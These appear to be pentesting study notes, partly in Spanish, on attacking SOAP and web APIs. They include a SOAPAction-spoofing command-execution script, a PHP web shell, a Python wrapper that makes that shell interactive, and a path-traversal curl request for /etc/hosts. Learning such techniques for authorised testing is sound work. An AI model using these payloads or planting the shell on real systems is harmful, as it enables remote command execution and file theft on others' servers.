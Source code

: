 


### WSDL

Los WSDL son xmls que informan de los metodos disponibilizados, la forma de llamarlos y dónde residen


### SOAP

#### Soap Action Spoofing
SOAP messages towards a SOAP service should include both the operation and the related parameters. 
This operation resides in the first child element of the SOAP message's body. If HTTP is the transport of choice, it is allowed 
to use an additional HTTP header called SOAPAction, which contains the operation's name. The receiving web service can identify 
the operation within the SOAP body through this header without parsing any XML.

If a web service considers only the SOAPAction attribute when determining the operation to execute, then it may be vulnerable to 
SOAPAction spoofing.

ejemplo de soapaction spoofin:

        import requests

        while True:
            cmd = input("$ ")
            payload = f'<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>{cmd}</cmd></LoginRequest></soap:Body></soap:Envelope>'
            print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)


#### Information disclosure

Tenemos que invertir mucho tiempo en fuzzig cuando testeamos una api.
Si la api manifiesta una versión como "v2", siempre vale la pena probar versiones anteriores que pueden quedar como shadow


### Arbitrary file inclusion.
si logramos subir una shell:

                <?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

pero no logramos explotarla desde el servidor, podemos atacar a la api que utiliza. La ubicación de la misma estará en las request del
navegador.

un código simple en python para aprovechar esta shell y transformarla en una más interactiva:

                import argparse, time, requests, os # imports four modules argparse (used for system arguments), time (used for time), requests (used for HTTP/HTTPs Requests), os (used for operating system commands)
                parser = argparse.ArgumentParser(description="Interactive Web Shell for PoCs") # generates a variable called parser and uses argparse to create a description
                parser.add_argument("-t", "--target", help="Specify the target host E.g. http://<TARGET IP>:3001/uploads/backdoor.php", required=True) # specifies flags such as -t for a target with a help and required option being true
                parser.add_argument("-p", "--payload", help="Specify the reverse shell payload E.g. a python3 reverse shell. IP and Port required in the payload") # similar to above
                parser.add_argument("-o", "--option", help="Interactive Web Shell with loop usage: python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes") # similar to above
                args = parser.parse_args() # defines args as a variable holding the values of the above arguments so we can do args.option for example.
                if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
                    parser.print_help() # shows help menu
                elif args.target and args.payload: # elif (if they both have values do some action)
                    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
                if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
                    os.system("clear") # clear the screen (linux)
                    while True: # starts a while loop (never ending loop)
                        try: # try statement
                            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
                            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
                            time.sleep(0.3) # waits 0.3 seconds during each request
                        except requests.exceptions.InvalidSchema: # error handling
                            print("Invalid URL Schema: http:// or https://")
                        except requests.exceptions.ConnectionError: # error handling
                            print("URL is invalid")
                


##### Run:
                python shell.py -t url/path-to-file/file.php -o yes

#### FIle inclusion:
cuando vemos que un endpoint nos permite buscar o presentar archivos (ej downloads) siempre es un buen momento para probar una LFI:
                curl "http://<TARGET_IP>:3000/api/download/..%2f..%2f..%2f..%2fetc%2fhosts"
siempre se recomienda encodear el payload.

#### XSS

Si vemos que los valores introducidos en la url del endpoint se reflejan en la página siempre es un buen momento para probar XSS.
P.D.: Siempre encodear una vez.

